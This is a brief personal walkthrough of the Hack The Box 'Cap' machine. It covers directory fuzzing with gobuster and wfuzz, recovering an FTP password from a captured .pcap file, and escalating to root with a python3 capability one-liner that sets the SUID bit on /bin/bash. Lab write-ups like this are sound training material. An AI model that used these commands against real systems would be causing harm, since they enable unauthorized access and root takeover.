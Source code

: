 # 36. Cap 🧭
Names | Details
--------|-----
Source | HTB
Level | easy
Os | linux

**Notes :**




## Gaining Access 😉
- gobuster bruteforce with common.txt
- /data directory look interesting let's go and check that. It's said not found it's mean that the directory is exist but we need to find the file
- got /data/00. which is a `.pcap` file which includes nathan's password
- filtered as ftp in wireshark
- password got for ssh and ftp
- logged in as nathan



## Maintaining Access 🥷
- by executing linpeas, python3 found under capabilities
- executed python one line script [[#Important commands 🔥]]1


## Important commands 🔥
1. python to get root shell
	```
	python3 -c 'import os; os.setuid(0); os.system("chmod +s /bin/bash")'
	/bin/bash -p
	```
2. fuzz
	```
	wfuzz -u http://10.10.10.245/data/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --hc 302,404
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- bruteforce sub directories
- if sub directories don't have data, that means you've to fuzz


--------------------------------
**By Nibras Muhammed** 🤓🖥️






